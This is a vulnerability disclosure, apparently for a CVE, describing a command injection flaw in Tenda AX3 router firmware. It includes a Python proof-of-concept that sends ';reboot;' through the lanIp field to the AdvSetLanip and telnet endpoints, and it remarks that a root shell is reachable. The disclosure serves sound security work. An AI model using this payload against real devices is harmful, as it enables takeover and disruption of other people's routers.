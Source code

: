 # Tenda AX3 V16.03.12.11 command injection vulnerability

## Firmware information

- Manufacturer's address：https://www.tenda.com.cn/

- Firmware download address ： https://www.tenda.com.cn/download/detail-3476.html

## Affected version

![](https://github.com/yjzy00001/CVE/blob/main/vuln/rce/img/1.png)

## Vulnerability details

![](https://github.com/yjzy00001/CVE/blob/main/vuln/rce/img/2.png)

![](https://github.com/yjzy00001/CVE/blob/main/vuln/rce/img/3.png)

![](https://github.com/yjzy00001/CVE/blob/main/vuln/rce/img/4.png)

In /goform/AdvSetLanip, /goform/telnet, You can set lanip in AdvSetLanip. In the telnet function, the program will get the value of lanip and pass it into the system without any filtering. If the user passes in a malicious command, it will cause a command injection vulnerability.

## Poc

```python
import requests

url = "http://192.168.0.1/goform/AdvSetLanip"

lanIp = ';reboot;'

r = requests.post(url, data={'lanIp': lanIp})
print(r.content)

url = "http://192.168.0.1/goform/telnet"

r = requests.post(url, data={'lanIp': lanIp})
print(r.content)
```

You can see that the router restarts, forming a command injection vulnerability, and finally you can write exp to get root shell

